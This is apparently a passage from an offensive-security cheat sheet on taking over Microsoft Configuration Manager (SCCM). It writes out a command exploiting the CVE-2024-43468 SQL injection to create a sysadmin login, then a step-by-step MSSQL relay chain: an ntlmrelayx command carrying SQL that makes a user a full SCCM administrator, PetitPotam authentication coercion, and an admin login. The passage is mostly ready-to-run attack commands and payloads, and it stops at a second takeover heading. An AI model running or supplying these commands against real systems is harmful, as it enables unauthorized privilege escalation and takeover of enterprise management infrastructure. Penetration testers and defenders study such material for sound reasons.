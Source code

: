 * [synacktiv/CVE-2024-43468](https://github.com/synacktiv/CVE-2024-43468) - Microsoft Configuration Manager (ConfigMgr / SCCM) 2403 Unauthenticated SQL injections (CVE-2024-43468) exploit

```ps1
$ CVE-2024-43468.py -t cmc.corp.local -sql "create login [CORP\user1] from windows ; exec master.dbo.sp_addsrvrolemember [CORP\user1], 'sysadmin'"
$ mssqlclient.py -debug -windows-auth 'CORP/user1:xxx'@cmc-db.corp.local
SQL> select name from sysdatabases where name like 'CM_%'
```

## SCCM Relay

### TAKEOVER1 - Low Privileges to Database Administrator - MSSQL relay

**Requirements**:

* Database separated from the site server
* Server site is sysadmin of the database

**Exploitation**:

* Generate the query to elevate our user:

    ```ps1
    python3 sccmhunter.py mssql -u carol -p SCCMftw -d sccm.lab -dc-ip 192.168.33.10 -debug -tu carol -sc P01 -stacked
    ```

* Setup a relay with the generated query:

    ```ps1
    ntlmrelayx.py -smb2support -ts -t mssql://192.168.33.12 -q "USE CM_P01; INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite) VALUES (0x01050000000000051500000058ED3FD3BF25B04EDE28E7B85A040000,'SCCMLAB\carol',0,0,'','','','','P01');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'SCCMLAB\carol'),'SMS0001R','SMS00ALL','29');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'SCCMLAB\carol'),'SMS0001R','SMS00001','1'); INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'SCCMLAB\carol'),'SMS0001R','SMS00004','1');"
    ```

* Coerce an authentication to your listener using a domain account:

    ```ps1
    petitpotam.py -d sccm.lab -u carol -p SCCMftw 192.168.33.1 192.168.33.11
    ```

* Finally, connect as admin on the MSSQL server:

    ```ps1
    python3 sccmhunter.py admin -u carol@sccm.lab -p 'SCCMftw' -ip 192.168.33.11
    ```

### TAKEOVER2 - Low Privileges to MECM Admin Account - SMB relay
